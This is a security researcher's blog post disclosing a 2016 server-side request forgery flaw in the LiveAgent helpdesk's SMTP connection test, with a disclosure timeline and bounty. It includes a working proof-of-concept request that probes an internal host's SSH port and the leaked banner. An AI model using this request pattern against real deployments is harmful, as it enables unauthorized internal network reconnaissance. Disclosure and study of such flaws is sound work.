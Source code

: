 ```yaml
---
layout: post
title: "SSRF in LiveAgent"
thumbnail: periscope-240.jpg
date: 2016-10-11
---
```


The helpdesk software [LiveAgent](https://www.ladesk.com/) makes it possible to configure a SMTP server. Since it does not validate the SMTP server parameter and returns the response of the TCP connection, it is vulnerable to server side request forgery.

## Configuring the SMTP server

With LiveAgent it is possible to use any SMTP server as outgoing mail server. To configure this, you need to enter a host name, port, user name, and password. LiveAgent helps the user with debugging any issues by connecting to the server and showing the communication log:

![](/images/ladesk-communication-log-functionality.png)

## Server side request forgery

It is possible to connect to any host on any port and view the resulting communication. This introduces a security vulnerability if there are any hosts that the server can connect to, but the client cannot. For example, other hosts within the same network as the server may be accessible internally, but not from the Internet. Let's try it out by configuring a host on the internal network as SMTP server running on that port:

    D={
        "C": "La_Mail_MailAccountSettingsForm",
        "M": "testSmtpConnection",
        "fields": [
            ["name", "value", "values", "error"],
            ["email", "henk@example.com", "", ""],
            ["username", "henk@mailinator.com", "", ""],
            ["password", "henk", "", ""],
            ["smtp_server", "192.168.101.1", "", ""],
            ["smtp_port", "22", "", ""],
            ["useIncomingCredentials", "Y", "", ""]
        ],
        "S": "4916cf1dffaf5641xxxxx5b01c878b8"
    }

This request configures host 192.168.101.1 and port 22 as the SMTP server. The response shows information about the SSH server running on that port:

    {
        "F": [
            ["name", "value", "values", "error"],
            ["email", "henk@example.com", "", ""],
            ["username", "henk@mailinator.com", "", ""],
            ["password", "henk", "", ""],
            ["smtp_server", "192.168.101.1", "", ""],
            ["smtp_port", "22", "", ""],
            ["useIncomingCredentials", "Y", "", ""]
            ["communicationLog", "SMTP communication log: 
            2016-07-05-05-58-07-2479 Recv: SSH-2.0-OpenSSH_6.7p1 Debian-5+deb8u2
            2016-07-05-05-58-07-2484 Sent: QUIT
            2016-07-05-05-58-07-2492 Recv: Protocol mismatch
            ", null, ""]
        ],
        "S": "N",
        "M": "Connecting to server failed"
    }

As you can see the application connected to 192.168.101.1 on port 22, and reveals that this host is running OpenSSH 6.7 on Debian.

## Information leakage only

This vulnerability makes it possible to read the response from any port, but we have no control over the data sent. We can use it to obtain information on the network, but we can not send any attacker-controlled data over the network. Nevertheless, this would be a powerful vulnerability if combined for example with a blind SSRF that can only be used to send data.

## Conclusion

Missing validation of the SMTP server parameter makes it possible to connect to hosts on the internal network and read their response on TCP connections.

## Timeline

* 5 July 2016, Sjoerd → LiveAgent: I found this vulnerability.
* 7 July 2016, Sjoerd → LiveAgent: Did you get my e-mail? Yes.
* 30 August 2016, Sjoerd → LiveAgent: Any update? We are working on it.
* 12 September 2016, LiveAgent → Sjoerd: Thank you. We will fix it. Provide your PayPal details to get a $50 bounty.
* 20 September 2016: Received $50 bounty.
